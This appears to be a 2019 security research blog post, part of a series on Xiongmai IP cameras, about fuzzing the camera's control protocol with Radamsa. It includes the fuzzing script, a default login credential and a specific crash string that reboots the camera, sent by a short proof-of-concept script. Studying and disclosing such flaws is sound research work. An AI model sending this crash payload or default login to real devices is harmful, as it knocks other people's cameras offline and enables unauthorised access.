 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 7 - Fuzzing With Radamsa"
date:   2019-09-04 06:00:00 +0100
tags: xiongmai, hacking, ipc
permalink: /xiongmai/7
---
```

I'd never heard of this tool, until I happened to stumble upon it in a [LiveOverflow](https://www.youtube.com/watch?v=kMu1J8QdxE8) video. The tool is, very neat to say the least. It takes an input "sample" data, and mutates it in various ways to cause potential bad behavior in an application.

From the previous behavioral fuzzing we did, we know what commands are available by default, so we should fuzz those specific items to see if we can get them to misbehave.

<pre><code class="crystal">
File.open("./rsrc/op_monitor.txt", "w+") do |file|
  file.print Command::OPMonitor.new(session_id: 0xabcdef00_u32).to_s
end

File.open("./logs/radamsa/op_monitor.log", "w+") do |file|
  puts "Testing connection"
  socket = MagicSocket.new("192.168.11.109", 34567)
  socket.login "default", Dahua.digest("tluafed")
  xmm = Command::OPMonitor.new
  socket.send_message xmm
  puts "SENT: #{xmm.message}"
  reply = socket.receive_message
  puts "GOT: #{reply.message}"

  1000.times do |x|
    begin
      socket = MagicSocket.new("192.168.11.109", 34567)
      socket.login "default", Dahua.digest("tluafed")
      message = `radamsa ./rsrc/op_monitor.txt`
      file.puts "SENT: #{message.inspect}"
      socket.send message
      reply = socket.receive_message
      file.puts "GOT: #{reply.message.inspect}"
    rescue e : MagicError::SocketException
      puts "SOCKET DOWN! #{e.inspect}"
      raise e
    rescue e : MagicError::Exception
      file.puts "ERROR: #{e.inspect}"
      puts "ERROR: #{e.inspect}"
    rescue e
      file.puts "BAD ERROR: #{e.inspect}"
      puts "BAD ERROR: #{e.inspect}"
    end
  end
end
</code></pre>

I make a message for OPMonitor, and output it to a file, then send that file through Radamsa, and send it's fuzzing data to the camera. Within about 100 or so tries, it ended up finding a way to disrupt the client and the camera server for about 120 seconds while the camera reboots. This string takes the camera down via ping, connection, etc. This means the camera itself actually get rebooted.

<pre><code class="crystal">
crash_string = "\xFF\u0001\u0000\u0000\u0000\xEF\xCD\xAB\u0000\u0000\u0000\u0000\u0000\u0000\x85\u0005\xA0\u0000\u0000\xE1\u0000{\"Name\":\"OPMonitor\",\"OPMonitor\",\"OPMonitor\":{\"Action\":\"Claim\",\"Parmeter\":{\"Channel\":0,\"CombinModeใ\":\"N󠁢ONE\",\"Parmeter\":{\"Channel\":0,\"CombinModeใ\":\"N󠁢ONE\",\"Stre amT\u000E\xFE\xFFype\":\"Main\",\"TransMode\":\"TCP\"}},\"Sess󠁎ionID\":\"4294967296xAbcdef256\"}"
socket = MagicSocket.new("192.168.11.109", 34567)
socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

Already Radamsa has helped us find a new and exciting vulnerability.

## Final notes on fuzzing

We can say for certain that there are some oddities and inconsistencies about how this protocol works, which tends to be good for the red team. The stranger the protocol the more likely someone made a mistake somewhere along the way. There seems to be a lot of potential for that since the protocol acts so erratically. 

[Part 8 &gt;&gt;](/xiongmai/8)